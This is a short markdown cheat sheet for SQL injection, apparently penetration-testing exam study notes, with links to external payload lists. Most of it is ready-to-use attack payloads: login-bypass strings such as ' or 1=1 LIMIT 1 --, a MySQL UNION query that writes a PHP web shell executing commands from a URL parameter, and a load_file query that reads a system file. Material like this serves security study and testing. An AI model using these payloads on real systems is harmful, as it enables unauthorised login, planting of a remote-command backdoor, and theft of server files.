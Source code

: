 # SQL Injection

## Readings

* [https://github.com/xMilkPowderx/OSCP/blob/master/SQLi.md](https://github.com/xMilkPowderx/OSCP/blob/master/SQLi.md)

## Authentication Bypass

Some programming languages may expect a single SQL record. If so, we need to limit the number of records manually:

```
admin' or 1=1 LIMIT 1;#
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

## MariaDB / MySQL

### Code Execution

```
http://target/page.php?param=vuln UNION SELECT 1,2,3,"<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE 'web_server/backdoor.php'
```

### Load File

```
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

## Fuzzing

[https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi)
